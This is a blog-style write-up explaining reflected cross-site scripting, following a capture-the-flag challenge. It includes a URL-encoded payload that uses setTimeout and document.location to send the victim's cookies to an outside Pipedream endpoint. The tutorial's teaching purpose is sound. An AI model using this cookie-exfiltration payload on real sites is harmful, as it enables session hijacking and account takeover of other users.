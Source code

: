 ```yaml
---
title: XSS Vulnerabilities
description: Explanation of some XSS Vulnerabilities
date: "2021-07-23T10:00:00+02:00"

---
```


![xss_image](xss_image.jpeg)

# Introduction
**Cross-Site Scripting (XSS)** Attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user whitin the output it generates without **validating or encoding it.**

#### There are three types of XSS, which are:

- Stored
- Reflected
- DOM-based

You can find more information about them [here](https://owasp.org/www-community/Types_of_Cross-Site_Scripting).

Today I will be explaining _Reflected XSS_. It arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

If an attacker can control a script that is executed in the victim's browser, then they can typically fully compromise that user. Amongst other things, the attacker can:

  - Perform any action within the application that the user can perform.
  - View any information that the user is able to view.
  - Modify any information that the user is able to modify.
  - Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user.


## Hands on!!

In this example, I will follow along a hacking challenge from a platform, so some screenshots will be chopped/painted.

Put this situation: you have an input which the user can controll (as for example, a parameter in the url) which then gets reflected in the web you are trying to hack.
We found this page, where you input some URL, and when it's not found, it just returns that the page is not found, referencing it with a link.

As the name ((Reflected-XSS)) suggests, we can see that our input is **reflected** within the webpage:
![xss1](xss1.PNG)

This input should be sanitized/disabled, for example telling our webserver to remove URL queries, otherwise we could try to change this with a custom payload, such as: 

```javascript
'onmousemove='alert(1)
```

Come along with me, check if we can inject some JS inside the URL query:


![xss2](xss2.png)

Nice! Now that we see we can inject javascript, move forward to steal the administrator's cookie. :cookie:

For this purpose I will use [Pipedream](https://pipedream.com) (bafore called pastebin), but you can use any endpoint of your choice.

In order to take the administrator's cookie, I am going to change my payload aiming the query to my endpoint so I can receive my cookie!
My new payload will be:
```javascript
?p=%27%20onmouseover=%27setTimeout(function()%7Bdocument.location=%22https://[[[pipedream_endpoint]]]pipedream.net?%22.concat(document.cookie);%7D,1)
```

A simple explanation about the modified payload:
1. The [setTimeout](https://www.w3schools.com/jsref/met_win_settimeout.asp) function is used to trigger a custom function, as the parameter is called with 1ms (0,001 seconds) thus always hitting the race condition.
2. The ['Document Location'](https://developer.mozilla.org/en-US/docs/Web/API/Document/location) directive is used to send the administrator's cookie to our custom endpoint.
3. The [Document.Cookie](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie) parameter will show us the cookie.

This way we will send the cookie to our endpoint and check for it's results:
![xss3](xss3.png)

As this is from a cybersecurity challenge, won't show the flag. But you can see the query which contain the cookie we wanted.

And this is all for tonight! :night_with_stars:
